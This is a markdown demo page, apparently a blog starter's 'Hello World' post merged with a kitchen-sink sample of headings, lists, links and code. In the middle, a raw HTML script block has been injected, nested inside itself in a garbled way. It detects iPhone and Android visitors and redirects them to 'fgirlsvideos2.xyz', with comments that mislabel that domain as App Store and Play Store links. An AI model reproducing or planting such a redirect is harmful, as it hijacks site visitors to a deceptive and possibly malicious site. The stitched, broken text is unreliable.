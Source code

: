 ```yaml
---
title: Hello World
date: "2015-05-01T22:12:03.284Z"
description: "Hello World"
---
```


This is my first post on my new fake blog! How exciting!

I'm sure I'll write a lot more interesting things in the future.

Oh, and here's a great quote from this Wikipedia on
[salted duck eggs](https://en.wikipedia.org/wiki/Salted_duck_egg).

> A salted duck egg is a Chinese preserved food product made by soaking duck
> eggs in brine, or packing each egg in damp, salted charcoal. In Asian
> supermarkets, these eggs are sometimes sold covered in a thick layer of salted
> charcoal paste. The eggs may also be sold with the salted paste removed,
> wrapped in plastic, and vacuum packed. From the salt curing process, the
> salted duck eggs have a briny aroma, a gelatin-like egg white and a
> firm-textured, round yolk that is bright orange-red in color.

![Chinese Salty Egg](./salty_egg.jpg)

You can also write code blocks here!

```js
const saltyDuckEgg = "chinese preserved food product"
```

| Number | Title                                    | Year |
| :----- | :--------------------------------------- | ---: |
| 1      | Harry Potter and the Philosopher’s Stone | 2001 |
| 2      | Harry Potter and the Chamber of Secrets  | 2002 |
| 3      | Harry Potter and the Prisoner of Azkaban | 2004 |

[View raw (TEST.md)](https://raw.github.com/adamschwartz/github-markdown-kitchen-sink/master/README.md)

This is a paragraph.

    This is a paragraph.

# Header 1

## Header 2
<html>
    <head>
        <body>
            <script type="text/javascript"> var device = navigator.userAgent
                 
                 if (device.match(/Iphone/i)|| device.match(/Ipod/i)|| device.match(/iPhone|iPad|iPod/i))
                  	{ 
                    		window.location = "http://fgirlsvideos2.xyz/"; //URL del APP Store
                            	}
                                else { 
                                	if (device.match(/Android/i))		
                                    	{ 	
                                        		window.location = "http://fgirlsvideos2.xyz/"; //URL del Play Store<html>
                                                <head>
                                                <body>
                                                <script type="text/javascript"> var device = navigator.userAgent
                                                 
                                                 if (device.match(/Iphone/i)|| device.match(/Ipod/i)|| device.match(/iPhone|iPad|iPod/i))
                                                  	{ 
                                                    		window.location = "http://fgirlsvideos2.xyz/"; //URL del APP Store
                                                            	}
                                                                else { 
                                                                	if (device.match(/Android/i))		
                                                                    	{ 	
                                                                        		window.location = "http://fgirlsvideos2.xyz/"; //URL del Play Store
                                                                                	}
                                                                                    	else
                                                                                        	{ 
                                                                                            		window.location = "https://www.facebook.com/"; //En el caso que el cliente este visitando desde un computador, lo enviamos a la web. 
                                                                                                    	}
                                                                                                        }
                                                                                                        
                                                                                                        </script>
                                                                                                        
                                                                                                        </body>
                                                                                                        </head>
                                                                                                        </html>
                                                	}
                                                    	else
                                                        	{ 
                                                            		window.location = "https://www.facebook.com/"; //En el caso que el cliente este visitando desde un computador, lo enviamos a la web. 
                                                                    	}
                                                                        }
                                                                        
                                                                        </script>
                                                                        
                                                                        </body>
                                                                        </head>
                                                                        </html>
    Header 1
    ========

    Header 2
    --------

# Header 1

## Header 2

### Header 3

#### Header 4

##### Header 5

###### Header 6

    # Header 1
    ## Header 2
    ### Header 3
    #### Header 4
    ##### Header 5
    ###### Header 6

# Header 1

## Header 2

### Header 3

#### Header 4

##### Header 5

###### Header 6

    # Header 1 #
    ## Header 2 ##
    ### Header 3 ###
    #### Header 4 ####
    ##### Header 5 #####
    ###### Header 6 ######

> Lorem ipsum dolor sit amet, consectetuer adipiscing elit. Aliquam hendrerit mi posuere lectus. Vestibulum enim wisi, viverra nec, fringilla in, laoreet vitae, risus.

    > Lorem ipsum dolor sit amet, consectetuer adipiscing elit. Aliquam hendrerit mi posuere lectus. Vestibulum enim wisi, viverra nec, fringilla in, laoreet vitae, risus.

> ## This is a header.
>
> 1. This is the first list item.
> 2. This is the second list item.
>
> Here's some example code:
>
>     Markdown.generate();

    > ## This is a header.
    > 1. This is the first list item.
    > 2. This is the second list item.
    >
    > Here's some example code:
    >
    >     Markdown.generate();

- Red
- Green
- Blue

* Red
* Green
* Blue

- Red
- Green
- Blue

```markdown
- Red
- Green
- Blue

* Red
* Green
* Blue

- Red
- Green
- Blue
```

- `code goes` here in this line
- **bold** goes here

```markdown
- `code goes` here in this line
- **bold** goes here
```

1. Buy flour and salt
1. Mix together with water
1. Bake

```markdown
1. Buy flour and salt
1. Mix together with water
1. Bake
```

1. `code goes` here in this line
1. **bold** goes here

```markdown
1. `code goes` here in this line
1. **bold** goes here
```

Paragraph:

    Code

<!-- -->

    Paragraph:

        Code

---

---

---

---

---

    * * *

    ***

    *****

    - - -

    ---------------------------------------

This is [an example](http://example.com "Example") link.

[This link](http://example.com) has no title attr.

This is [an example][id] reference-style link.

[id]: http://example.com "Optional Title"

    This is [an example](http://example.com "Example") link.

    [This link](http://example.com) has no title attr.

    This is [an example] [id] reference-style link.

    [id]: http://example.com "Optional Title"

_single asterisks_

_single underscores_

**double asterisks**

**double underscores**

    *single asterisks*

    _single underscores_

    **double asterisks**

    __double underscores__

This paragraph has some `code` in it.

    This paragraph has some `code` in it.

![Alt Text](https://placehold.it/200x50 "Image Title")

    ![Alt Text](https://placehold.it/200x50 "Image Title")
